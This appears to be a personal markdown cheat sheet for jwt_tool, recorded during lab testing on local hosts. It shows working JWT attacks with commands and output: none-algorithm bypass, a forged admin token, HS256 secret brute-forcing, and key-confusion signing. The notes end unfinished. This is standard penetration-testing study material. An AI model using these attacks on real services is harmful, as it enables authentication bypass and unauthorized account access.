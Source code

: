 # JWT_Tool

## Install
See GitHub

## Usage

Many commands return a string similar to 'jwttool<alphanumeric>'
The request used can be returned:
```shell
python3 jwt_tool.py -Q "jwttool_fb724ea7181908c94f5a2607dc785cf"
```


### Read the token
```shell
jwt_tool "<JWT>"
```

### None algorithm test
Create tokens for a vulnerability in the JWT implementation where the server incorrectly allows tokens with the "alg": "none" algorithm to bypass signature validation.  

Creates tokens with the 'none' algorithm
  - 4 tokens with various spellings of 'none'
    - none
    - None
    - NONE
    - nOnE
  - removes signature part of the token

```shell
jwt_tool "<JWT>" -X a 
```

### Tamper with the token
Allows editing the token header and payload
Burp supports this as well

```shell
jwt_tool "<JWT>" -T
```

Edit algorithm to 'none' and change userId to admin and isAdmin to true
Original
eyJpYXQiOjE3MzI0NzMxNzMsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4MjE3MywidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ

Tampered
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpYXQiOjE3MzI0NzMxNzMsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4MjE3MywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjp0cnVlfQ.

### HS256 Brute force
jwt_tool "<JWT>" -C -d <wordlist>

Token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODA4NDUsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4OTg0NSwidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.txbUYuqhvcZdYOo0bBQeExVlaeiuCSd7rB7g1btyaEU

secret : 123456

```shell
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODA4NDUsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4OTg0NSwidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.txbUYuqhvcZdYOo0bBQeExVlaeiuCSd7rB7g1btyaEU -C -d numbers.txt
```

```text
[+] 123456 is the CORRECT key!
```

### Scanning

Can scan for 

Look for text in RED for identified issues

Example
```shell
python3 jwt_tool.py -t <target> -rh "Authorization: Bearer <JWT>" -M at -cv
```
Args:
  - -M : playbook scan
    - at : run all tests
  -cv : canary value, a text value expected in a successful use of the token

```shell
python3 jwt_tool.py -t http://192.168.56.101/v3/ -rh "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.hviPDcKdEQm-sfEU2CBmMsyaivneN76f5RUkX_wBCWemsaxeeoiOj7ajCAhQ2ciBE3P2D0IiwyHjgaO2vDpMmSrsL9pEsfiVmf7P7ef88_Ekx6OHEzxw1ExuRknaewZY_I5O5suWime5Wyf9WEaHIBVPs0ewJpmp0vk0MgK1xc1zSN-8mkxocM13tzcsWCw66QTFna57lILw6jLTXmJzZBYd2UwVmbGMBWWg47BG4jGQTMuD-4nhCrt1x4pO1acGwuYsQ0wvs8bGlEjr2ao-2FNIL8qbhxi9IBg3nrJrLZbHPZubd8aTpTCJB0J7y39MEC7aolNya05-EkkDYquvxg" -M at -cv "creditCard"
```


### Signing Keys

#### HS256

Sign with a secret
JWT should just be header and payload values

Example:
```shell
jwt_tool "<JWT>" -S hs256 -p jwt-secret-key
```

Example:
```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ." -S hs256 -p "mySecret123"  
```

Returns:
```text
jwttool_1112c3dc36cac9d7ed081603083d3c82 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.dXelEBdBwDXUJehNWiWQsCsRBufltkZZ9sBpv0f5X7g 
```

#### RS256

Requires a private key  
  - JWT should just be header and payload values

Example:
```shell
jwt_tool "<JWT>" -S -pr <private key>
```

Code:
```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ." -S rs256 -pr ~/rsa-keys/private.pem  
```

Returns:
``` text
jwttool_eee27528a3f9e43a199c30a7270e936e - Tampered token - RSA Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.m_cpU3eFZEhMfD_J29O_6YHLjjxXNPiRNcIBSwoc41wAGC713i1aSLcXbN4DZOg6Qs_Nt_zUAQM2SFU6mIsAsm4tv62BkCecy7SVjpnOy-umQyBTgHvb6b88tdKX4vf5me_RhJqSkJGYIhjn2-zjz1Z_aLGcZhDX7Dt8Npe8OF8CZI9ZOhW8Cuk7YMbPWHZQ2tEE4xQjZkf21RbUyW7hZNSLVWuUYhvHpZ9t31GZ_a4yOM7oFL_rJhhv_zmeKqEMi07ZU0muTMopXeH5aTXlpvsEdUAHZwqN3fWWMfrkMhQG5Uj3hK5CvKOj04sbkZKbsgNjgNo9nlepltl2GBrOzw
```

### Key Confusion

Requires a public key

Example  
```shell
jwt_tool "<JWT>" -X k -pk <public key> 
```

```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.hviPDcKdEQm-sfEU2CBmMsyaivneN76f5RUkX_wBCWemsaxeeoiOj7ajCAhQ2ciBE3P2D0IiwyHjgaO2vDpMmSrsL9pEsfiVmf7P7ef88_Ekx6OHEzxw1ExuRknaewZY_I5O5suWime5Wyf9WEaHIBVPs0ewJpmp0vk0MgK1xc1zSN-8mkxocM13tzcsWCw66QTFna57lILw6jLTXmJzZBYd2UwVmbGMBWWg47BG4jGQTMuD-4nhCrt1x4pO1acGwuYsQ0wvs8bGlEjr2ao-2FNIL8qbhxi9IBg3nrJrLZbHPZubd8aTpTCJB0J7y39MEC7aolNya05-EkkDYquvxg" -X k -pk ~/rsa-keys/public.pem 
```

Returns:
```text
File loaded: /home/bikeride/rsa-keys/public.pem
jwttool_fb724ea7181908c94f5a2607dc785cf2 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)                                                                                                                     
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.Ma27_tZTWfFe1dR3w4713-eOA2xgkrLPpNe5pM9fPwg  
```

### Playbook attacks

Issues
```shell
jwt_tool -t http://localhost:8888//identity/api/v2/user/dashboard -rh "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ1c2VyMUB1c2VyMS5jb20iLCJpYXQiOjE3MzIwNjI2MzIsImV4cCI6MTczMjY2NzQzMiwicm9sZSI6InVzZXIifQ.VunjCXP8DcMDjVBg-8O4y3Dvih5UEHE1Evk9R4fKWQSFAxIEdFNW3W7jj14BIZwZ6FM71yYccVkrJLqj-yYLjO5pJZow2eTPupU4xkGzQ48e1Urv5WCPcfEQJco9x3tzBuhOc5zP3m_deP8P8kejPvdA2XBQNdHiSguuS-tfmj5SBdZk6bHnmIVfkCR3AS-SnSir2hFV_liqdWqAIN_0OvG7p2YtpIxgl9pjrqGNu0_I1POiC1R0LpeWSWbbV2MD_vH8ye5zzJxfstRjy0SZ78_UdH75p605lfIW9pCaeYOlWN6wiHRPPHUGABXLjfWWPKC4fSEytt2YiIbNyRUgsA" -M pb
```

Worked  
set a shell variable
```shell
JWT="<JWT>"

### KID Attacks

TBD
